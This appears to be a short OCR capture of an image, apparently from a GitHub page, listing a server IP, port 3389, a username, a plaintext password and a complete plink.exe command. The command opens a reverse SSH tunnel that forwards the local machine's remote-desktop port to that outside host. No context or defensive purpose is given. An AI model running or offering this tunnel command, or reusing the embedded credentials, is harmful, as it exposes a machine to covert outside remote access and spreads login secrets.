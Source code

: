 **Server IP**: 168.57.191.100
**Port**: 3389
**Connection type**: ssh
**Username**: $had0w
**Password**: thruthW!llS3tUfree

**Full command**: plink.exe -R 3389:localhost:3389 -ssh -l $had0w -pw thruthW!llS3tUfree 168.57.191.100